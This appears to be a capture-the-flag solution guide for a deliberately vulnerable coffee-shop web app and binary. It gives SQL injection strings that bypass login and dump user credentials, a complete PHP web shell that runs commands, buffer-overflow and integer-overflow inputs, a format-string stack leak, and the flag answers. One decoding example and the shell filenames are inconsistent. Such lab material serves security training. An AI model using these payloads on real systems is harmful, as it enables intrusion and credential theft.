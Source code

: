 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database

**Hint:** Don't forget to add a space after the `--` to comment out the rest of the query.

2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Coffee Strength Flag

**Name**: Coffee Strength Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 1
**Flag Format**: CTF{m0cha_myst3ries_r3v34l3d}

1. Gain Admin Access  
   1. Complete Flag 2 to obtain access to the PHP web shell.

2. Download the Vulnerable Binary  
   1. List the files and locate the base64-encoded binary named `barista_academy`.
   2. Base64-encode the binary on the server so you can copy it:
      ```sh
      base64 ./barista_academy
      ```

3. Decode and Prepare the Binary  
   1. On your local machine, decode the base64 file and make it executable.

4. Run the Binary in Docker  
   1. Move the obtained `barista_academy` binary to the `challenge/secret-executable` directory.
   2. Follow the instructions in `README.md` to run the program.
   3. Alternatively, you may run the binary directly if you have the necessary environment set up, it is a linux/amd64 binary.

5. Exploit the Buffer Overflow
   1. When prompted to enter your favorite coffee blend, input a string that overflows the buffer and overwrites the `coffee_strength` variable.
   2. The goal is to change `coffee_strength` from its initial value (e.g., 17) to exact amount required (this is randomized). Try inputting a string like:
      ```
      1234567890123456789012345678N
      ```
   3. If the value is not correct, adjust the final character until you reach the target value. The program will give hints about the current strength.
   4. Upon success, the program reveals the flag:
      ```
      CTF{m0cha_myst3ries_r3v34l3d}
      ```
    5. Enter this flag when restarting the program to unlock the next challenge.

## Flag 4: Coffee Shop Balance Flag

**Name**: Coffee Shop Balance Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 2
**Flag Format**: CTF{espresso_3xpr3ss_secrets}

1. After capturing Flag 3, the program unlocks Challenge 2.
2. You start with 1100 coins and can buy coffees costing 900 coins each.
3. The program checks if you have enough balance for the purchase.
4. Exploit integer overflow by entering a very large number of coffees to make the total cost overflow to a negative number (e.g., `12312312`).
5. This causes your balance to increase incorrectly. Repeat purchases if needed.
6. Once your balance reaches or exceeds 100,000 coins, the program awards Flag 4:
   ```
   CTF{espresso_3xpr3ss_secrets}
   ```
7. Enter this flag when restarting the program to unlock the next challenge.

**Hint:** Try entering a very large integer as the number of coffees to order. If the program rejects non-numeric input, use a large positive number to trigger the overflow.

## Flag 5: Secret Order Printer Flag

**Name**: Secret Order Printer Flag
**Location**: Encrypted in `barista_academy.c` binary, revealed upon solving Challenge 3
**Flag Format**: CTF{cappucc1n0_cr4ck3r_4l3rt}

1. After capturing Flag 4, the program unlocks Challenge 3.
2. Use the secret order printer feature, which reads your input and passes it directly to `printf` without format string protection.
3. Exploit the format string vulnerability by sending a payload such as:
   ```
   %llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
   ```
4. The output will display hexadecimal values from the stack. Look for values that resemble ASCII when converted.
5. Reverse the byte order of each 64-bit chunk (little-endian) to reveal the flag. For example:
   - `707061637b465443` → `CTF{capp`
   - `635f306e31636375` → `uccino_3c`
   - ...

   There are many online tools available to help with this conversion. 

6. Combine the parts to get the full flag:
   ```
   CTF{cappucc1n0_cr4ck3r_4l3rt}
   ```

**Hint:** Use repeated `%llx` format specifiers to leak stack memory. Convert the hex output to ASCII and reverse the endianness for each chunk to reconstruct the flag.

